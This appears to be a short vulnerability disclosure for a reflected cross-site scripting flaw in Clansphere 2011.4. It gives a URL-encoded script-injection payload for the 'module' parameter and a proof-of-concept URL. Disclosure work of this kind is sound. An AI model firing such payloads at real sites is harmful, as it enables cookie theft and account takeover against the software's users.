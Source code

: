 Description

A cross-site scripting (XSS) issue in the Clansphere version 2011.4 allows remote attackers to inject JavaScript via the "module" Parameter
___
XSS Payload: module%27%22()%26%25%3Cyes%3E%3CScRiPt%20%3Ealert(9904)%3C/ScRiPt%3E
___
Vulnerable Parameter: module
___
Steps to Reproduce the Issue:
POC: https://localhost/clansphere/mods/clansphere/lang_modvalidate.php?language=language&module=module%27%22()%26%25%3Cyes%3E%3CScRiPt%20%3Ealert(9904)%3C/ScRiPt%3E

Screenshot:
![POC](https://user-images.githubusercontent.com/69595454/111911116-ce77f080-8a6c-11eb-8817-9554acff65db.png)

___
Impact

With the help of xss attacker can perform social engineering on users by redirecting them from real website to fake one. Attacker can steal their cookies leading to account takeover and download a malware on their system, and there are many more attacking scenarios a skilled attacker can perform with xss.
